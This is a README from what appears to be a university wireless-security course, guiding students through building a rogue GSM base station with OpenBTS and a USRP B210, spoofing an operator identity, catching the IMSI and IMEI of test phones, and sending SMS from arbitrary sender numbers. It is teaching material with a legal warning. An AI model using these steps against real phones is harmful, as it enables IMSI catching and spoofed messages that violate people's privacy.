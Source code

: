 # WiSec

Welcome to the git repo for the WiSec class at EURECOM.

# Index

* [Rogue GSM base station](#RogueGSM)

## <a name="RogueGSM"></a>Rogue GSM base station

***Warning***
This is a purely technical guide.
Refer to the regulations in your country to check what you are allowed and not allowed to do.

We will use OpenBTS and a USRP B210 software defined radio to build a rogue GSM base station.
[Getting Started with OpenBTS Range Networks](http://www.openbts.org/site/wp-content/uploads/ebook/Getting_Started_with_OpenBTS_Range_Networks.pdf)
is a good reference.

We use Vagrant and VirtualBox to setup a virtual machine. This makes it easy to setup the environment and it is independent from the operating system you have. Please make sure you have installed Vagrant and VirtualBox before continuing. Refer to the official documentation and tutorials.

You will also need some test phones for the experiments.
Beware that you will collect the IMEI and IMSI of these phones.
The idea for the demo is to catch the IMEI and IMSI of the testphones, and whitesit them, so that
no other user will accidentally connect to the test network.

Connect the USRP B210 to you machine, then prepare the virtual machine, the first time this will take several minutes.
```
$ cd openbts
$ vagrant up
```

You can not connect to the virtual machine.
```
$ vagrant ssh
```

First, check the radio.
```
> uhd_find_devices
linux; GNU C++ version 5.3.1 20151219; Boost_105800; UHD_003.009.002-0-unknown

--------------------------------------------------
-- UHD Device 0
--------------------------------------------------
Device Address:
    type: b200
    name: MyB210
    serial: 3189F57
    product: B210
```
```
> cd /home/vagrant/dev/openbts/debian/openbts/OpenBTS/
> ./transceiver
linux; GNU C++ version 5.3.1 20151219; Boost_105800; UHD_003.009.002-0-unknown

Using internal frequency reference
-- Detected Device: B210
-- Loading FPGA image: /usr/share/uhd/images/usrp_b210_fpga.bin... done
-- Operating over USB 3.
-- Detecting internal GPSDO.... No GPSDO found
-- Initialize CODEC control...
-- Initialize Radio control...
-- Performing register loopback test... pass
-- Performing register loopback test... pass
-- Performing CODEC loopback test... pass
-- Performing CODEC loopback test... pass
-- Asking for clock rate 16.000000 MHz... 
-- Actually got clock rate 16.000000 MHz.
-- Performing timer loopback test... pass
-- Performing timer loopback test... pass
-- Setting master clock rate selection to 'automatic'.
-- Asking for clock rate 32.000000 MHz... 
-- Actually got clock rate 32.000000 MHz.
-- Performing timer loopback test... pass
-- Performing timer loopback test... pass
-- Asking for clock rate 26.000000 MHz... 
-- Actually got clock rate 26.000000 MHz.
-- Performing timer loopback test... pass
-- Performing timer loopback test... pass
```
Kill with Ctrl-C.
```
^CReceived shutdown signal
Shutting down transceiver...
```

From now on it will be handy to have multiple terminals.
A good way to accomplish that via ssh is to use the ```tmux``` program.
Quick tutorial:
1. ```tmux``` to start a new session.
2. ```Ctrl-b c``` to create a new terminal.
3. ```Ctrl-b n``` to move to next terminal.
4. ```Ctrl-b p``` to move to previous terminal.
4. ```Ctrl-b d``` to detach from the session.
5. ```tmux a``` to reattach.

Now, start each of the following programs in a separate terminal.
```
> cd ~/dev/subscriberRegistry/apps
> sudo ./sipauthserve
```
```
> cd ~/dev/smqueue/smqueue/
> sudo ./smqueue
```
```
> cd ~/dev/asterisk/asterisk-11.7.0/main
> sudo LD_LIBRARY_PATH=./ ./asterisk -vv
```
```
> cd ~/dev/openbts/debian/openbts/OpenBTS/
> sudo ./OpenBTS
```
```
> cd ~/dev/openbts/debian/openbts/OpenBTS/
> sudo ./OpenBTSCLI
```

Now, you can type commands in the OpenBTSCLI command line interface (OpenBTS>).

Adjust the receive gain.
2dB is a good value when the phone are close, to avoid clipping.
Incerease to 10dB if you the phone is more distant.
```
OpenBTS> rxgain 2
```

Set the transmission attenuation, e.g. 20dB.
Adjust to your needs.
```
OpenBTS> power 20
```

Setup a spoofed network identity.
You can find MCC and MNC here https://cellidfinder.com/mcc-mnc/
We chose an Italian operator that is not available in France.
With a French SIM, you have to select it manually.
With an Italian WIND SIM, it will be chosen automatically.
If you want to use an operator that exist in the area, then you have to overpower its signal, we chose not to.
```
config GSM.Identity.ShortName WIND
config GSM.Identity.MCC 222
config GSM.Identity.MNC 88 
```

Now, take a testphone and do a manual scan for the networks.
You should see a new carrier appear.
Try to connect to the network, you will get a failure, but this is enough to catch the IMSI/IMEI information.
```
OpenBTS> tmsis
IMSI            TMSI IMEI            AUTH CREATED ACCESSED TMSI_ASSIGNED
2*************7 -    3*************0 0    3s      3s       0             
```

It is now possible to add a new subscriber for this phone.
You can assing any phone number, e.g., 1111
In a new terminal:
```
> cd ~/dev/NodeManager/
> ./nmcli.py sipauthserve subscribers create "TestPhone1" IMSI2*************7 1111
```

It is also possible to allow open registration for a certain IMSI
```
OpenBTS> config Control.LUR.OpenRegistration 2*************7
```

Now your phone should connect.

You can send an SMS to the phone, from any number you want.
```
OpenBTS> sendsms 2*************7 0033666*****1 Hey you
```

If you add two phones, they can send each other messages.

Once you are done, close all the programs.

Then, halt the virtual machine.
```
$ vagrant halt
```




